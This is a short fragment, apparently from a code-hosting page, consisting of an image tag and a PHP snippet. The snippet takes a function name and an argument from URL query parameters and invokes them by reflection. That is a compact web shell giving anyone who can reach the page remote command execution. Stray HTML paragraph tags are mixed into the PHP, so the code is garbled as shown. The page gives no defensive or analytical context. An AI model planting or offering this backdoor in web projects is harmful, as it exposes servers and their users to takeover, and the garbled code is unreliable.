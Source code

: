 

<img src="11.jpg" alt="alt text" title="Title" />


***************************************************
code:

<?php
<p>
    $func = new ReflectionFunction($_GET[m]);
    <p>
    echo $func->invokeArgs(array($_GET[c]));
<p>
?>

***************************************************